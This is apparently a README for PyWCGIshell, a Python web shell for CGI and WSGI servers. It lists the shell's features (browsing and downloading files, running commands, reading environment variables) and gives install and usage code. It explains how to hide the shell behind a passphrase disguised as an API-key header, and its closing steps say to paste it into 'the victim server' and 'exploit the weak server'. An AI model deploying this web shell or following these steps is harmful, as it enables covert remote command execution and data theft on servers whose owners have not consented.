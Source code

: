 # PyWCGIshell

## Description

This package implement a WebShell for CGI and WSGI server.

With this WebShell you can:
 - explore directories and download files
 - execute command lines (with command history)
 - show basic informations about environment server
 - show environments variables

## Requirements

This package require :
 - python3
 - python3 Standard Library

## Installation
```bash
pip install PyWCGIshell
```

## Usages

### Command line

(Command line is useful to try the webshell)

```bash
python3 -m PyWCGIshell wsgi # Try it in wsgi mode
```

### Python script

#### CGI page

```python
from PyWCGIshell import WebShell

def my_default_cgi_page():
	print("Content-type:text/plain; charset=utf-8")
	print("")
	print("Hello World !")

webshell = WebShell()
webshell.standard_page = my_default_cgi_page
webshell.run()
```

#### WSGI page

```python
from PyWCGIshell import WebShell

def my_default_wsgi_page(environ, start_response):
    status = '200 OK'
    headers = [('Content-type', 'text/plain; charset=utf-8')]
    start_response(status, headers)
    return [b"Hello World !"]

webshell = WebShell(type_="wsgi")
webshell.standard_page = my_default_wsgi_page
application = webshell.run
# Apache with mod_wsgi use the "application" as default function
```

#### WebShell options

```python
from PyWCGIshell import WebShell

webshell = WebShell(type_="cgi", passphrase="SHELL", pass_type="method")
webshell.run()
```
I don't recommend using `method` like `pass_type` to hide your WebShell.

You can use similar configuration to hide your WebShell.
```python
from PyWCGIshell import WebShell

webshell = WebShell(type_="wsgi", passphrase="<inexistant api key>", pass_type="header_value")
application = webshell.run
```

To use this WebShell:
 - Configure (server type, passphrase and passphrase location) and copy the WebShell code or install it
 - Paste it in the default page of the victim server or import it
 - Send a request with the passphrase and exploit the weak server

## Links

 - [Github Page](https://github.com/mauricelambert/PyWCGIshell/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/PyWCGIshell.html)
 - [Pypi package](https://pypi.org/project/PyWCGIshell/)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
